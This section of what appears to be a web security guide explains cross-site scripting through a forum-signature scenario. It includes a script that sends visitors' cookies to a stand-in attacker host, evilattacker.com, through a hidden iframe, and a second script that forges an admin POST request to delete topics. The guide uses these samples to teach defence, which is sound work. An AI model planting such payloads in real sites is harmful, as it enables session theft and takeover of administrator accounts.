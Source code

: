 A Cross-Site Scripting Example
==============================

Let's imagine that an attacker has stumbled across a custom built forum which allows users to display a small signature beneath their comments. Investigating this further, the attacker sets up an account, spams all topics in reach, and uses the following markup in their signature which is attached to all of their posts:

.. code-block:: html

    <script>document.write('<iframe src="http://evilattacker.com?cookie=' + document.cookie.escape() + '" height=0 width=0 />');</script>

By some miracle, the forum software includes this signature as-is in all those spammed topics for all the forum users to load into their browsers. The results should be obvious from the Javascript code. The attacker is injecting an iframe into the page which will appear as a teeny tiny dot (zero sized) at the very bottom of the page attracting no notice from anyone. The browser will send the request for the iframe content which passes each user's cookie value as a GET parameter to the attacker's URI where they can be collated and used in further attacks. While typical users aren't that much of a target for an attacker, a well designed trolling topic will no doubt attract a moderator or administrator whose cookie may be very valuable in gaining access to the forums moderation functions.

This is a simple example but feel free to extend it. Perhaps the attacker would like to know the username associated with this cookie? Easy! Add more Javascript to query the DOM and grab it from the current web page to include in a "username=" GET parameter to the attacker's URL. Perhaps they also need information about your browser to handle a Fingerprint defense of the session too? Just include the value from "navigator.userAgent".

This simple attack has a lot of repercussions including potentially gaining control over the forum as an administrator. It's for this reason that underestimating the potential of XSS attack is ill advised.

Of course, being a simple example, there is one flaw with the attacker's approach. Similar to examples using Javascript's alert() function I've presented something which has an obvious defense. All cookies containing sensitive data should be tagged with the HttpOnly flag which prevents Javascript from accessing the cookie data. The principle you should remember, however, is that if the attacker can inject Javascript, they can probably inject all conceivable Javascript. If they can't access the cookie and mount an attack using it directly, they will do what all good programmers would do: write an efficient automated attack.

.. code-block:: html
    :emphasize-lines: 4

     <script>
        var params = 'type=topic&action=delete&id=347';
        var http = new XMLHttpRequest();
        http.open('POST', 'forum.com/admin_control.php', true);
        http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        http.setRequestHeader("Content-length", params.length);
        http.setRequestHeader("Connection", "close");
        http.onreadystatechange = function() {
            if(http.readyState == 4 && http.status == 200) {
                // Do something else.
            }
        };
        http.send(params);
     </script>

The above is one possible use of Javascript to execute a POST request to delete a topic. We could encapsulate this in a check to only run for a moderator, i.e. if the user's name is displayed somewhere we can match it against a list of known moderators or detect any special styling applied to a moderator's displayed name in the absence of a known list.

As the above suggests, HttpOnly cookies are of limited use in defending against XSS. They block the logging of cookies by an attacker but do not actually prevent their use during an XSS attack. Furthermore, an attacker would prefer not to leave bread crumbs in the visible markup to arouse suspicion unless they actually want to be detected.

Next time you see an example using the Javascript alert() function, substitute it with a XMLHttpRequest object to avoid being underwhelmed.